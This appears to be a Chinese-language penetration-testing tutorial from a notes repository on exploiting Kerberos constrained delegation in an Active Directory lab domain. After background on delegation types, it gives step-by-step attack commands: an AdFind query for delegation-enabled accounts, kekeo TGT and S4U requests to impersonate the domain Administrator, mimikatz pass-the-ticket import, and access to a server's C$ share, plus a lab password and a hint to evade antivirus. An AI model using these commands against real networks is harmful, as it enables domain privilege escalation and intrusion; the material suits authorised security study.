







# 0x09-约束委派利用

## 0x01 准备工作

### 参考链接

```
《AD域用户加域委派》
https://wenku.baidu.com/view/5cd12c2adc36a32d7375a417866fb84ae45cc32b.html
《域渗透——Kerberos委派攻击》     -- 主要是这篇文章
https://xz.aliyun.com/t/7217#toc-9
《利用域委派获取域管理权限》
https://www.anquanke.com/post/id/92484
《微软不认的“0day”之域内本地提权-烂番茄（Rotten Tomato）》
https://mp.weixin.qq.com/s/Ue2ULu8vxYHrYEalEzbBSw
《这是一篇“不一样”的真实渗透测试案例分析文章》
https://cloud.tencent.com/developer/article/1601095
```

### 准备环境

```
借用Klion的环境
域控：192.168.3.142
域机器：Srv-DB-0day
域机器：PC-jerry-0day
服务账号:0day\sqlsvr Admin12345
工具：
ADFind.exe      查找域中配置约束委派用户
kekeo.exe       请求TGT，获取ST
mimikatz        导入ST，获取权限
```

### 背景知识

域委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户的权限在域内展开活动

委派主要分为非约束委派(Unconstrained delegation)和约束委派(Constrained delegation)两个方式，还有一种是基于资源的约束委派（Resource Based Constrained Delegation）

```
非约束性委派（Unconstrained Delegation）
服务账号可以获取某用户的TGT，从而服务账号可使用该TGT，模拟用户访问任意服务。
举例说明，如果某个服务A的服务账号B被设置为非约束委派，当用户C通过Kerberos认证访问服务A时，KDC会检查服务账号B的属性，发现是非约束性委派时，KDC会将用户C的TGT放在TGS中，这样B在验证TGS的同时获取了A用户的TGT，从而可以模拟用户A访问任意服务。
从网络攻击的角度看，如果攻击者控制了服务账号B，并诱骗管理员来访问服务A，则可以获取管理员的TGT，进而模拟管理员访问任意服务，即获得管理员权限。越是大型网络、应用越多的网络，服务账号越多，委派的应用越多，越容易获取域管理员权限。
```

```
约束性委派（Constrained Delegation）
即Kerberos的扩展协议S4U2Proxy，服务账号只能获取某用户的TGS，从而只能模拟用户访问特定的服务；
```

### 服务账号、主机账号、普通账号

在Windows系统中，普通用户的属性中没有委派（Delegation）这个选项卡，只有服务账号、主机账号才有。

服务账号（Service Account），域内用户的一种类型，服务器运行服务时所用的账号，将服务运行起来并加入域。例如MS SQL Server在安装时，会在域内自动注册服务账号SqlServiceAccount，这类账号不能用于交互式登录。

服务账号：⬇



主机账号：⬇


普通账号：⬇



## 0x02 约束委托利用

模拟环境，在域机器：PC-jerry-0day上

### 1. 查找域中配置约束委派用户

 

```
AdFind.exe -h 192.168.3.142 -u sqlsvr -up Admin12345 -b "DC=0day,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```



那么当我们获取了sqlsvr域用户的账号密码后，就可以登录查出来的任意域机器

先查询下Srv-DB-0day域机器的管理组，使用服务账号建立IPC连接，用local查询本地管理组。可以看到sqlsvr并不能对Srv-DB-0day域机器有操作权限



### 2. 用kekeo请求该用户的TGT，使用这张TGT获取域机器的ST

 

```
kekeo.exe
tgt::ask /user:sqlsvr /domain:0day.org /password:Admin12345 /ticket:administrator.kirbi
tgs::s4u /tgt:TGT_sqlsvr@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/Srv-DB-0day.0day.org
```

用kekeo请求该用户的TGT

tgt::ask /user:sqlsvr /domain:0day.org /password:Admin12345 /ticket:administrator.kirbi

/user: 服务用户的用户名

/password: 服务用户的明文密码

/domain: 所在域名

/ticket: 指定票据名称，不过这个参数没有生效，可以忽略

得到服务用户TGT：TGT_sqlsvr@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi

使用这张TGT通过伪造s4u请求以administrator用户身份请求访问Srv-DB-0day CIFS的ST

tgs::s4u /tgt:TGT_sqlsvr@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/Srv-DB-0day.0day.org

S4U2Self获取到的ST1以及S4U2Proxy获取到的Srv-DB-0day CIFS服务的ST2会保存在当前目录下





### 3. 获取权限

使用mimikatz将ST2导入当前会话即可，如果有杀软，自行免杀。需要以管理员权限运行mimikatz

 

```
kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~Srv-DB-0day.0day.org@0DAY.ORG.kirbi
dir \\Srv-DB-0day.0day.org\C$\
```




## 0x03 视频演示

